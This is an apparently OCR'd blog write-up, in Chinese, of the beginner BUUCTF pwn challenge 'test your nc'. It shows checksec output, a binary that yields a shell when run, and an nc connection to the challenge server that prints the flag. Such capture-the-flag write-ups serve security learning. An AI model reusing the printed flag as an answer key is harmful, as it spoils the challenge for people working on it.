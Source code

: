 ```yaml
---
author: 
  name: Zephyr
title: test your nc
date: 2022-3-19 16:53:01
permalink: /pages/4e844742d534d18b
tags: 
  - buuctf
  - pwn
---
```

# test your nc

### 查看文件保护

```shell
root@localhost ~# checksec test
[*] '/root/test'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

### 流程分析

尝试直接运行

```shell
root@localhost ~# ./test
sh-4.2# whoami
root
```

可以看到直接就获得了`shell`,直接`nc`连接获得`flag`

### exp

```shell
root@localhost ~# nc node4.buuoj.cn 29403
cat flag
flag{7730b1f6-6dbe-49f0-b4ca-4902ec2552c3}
```

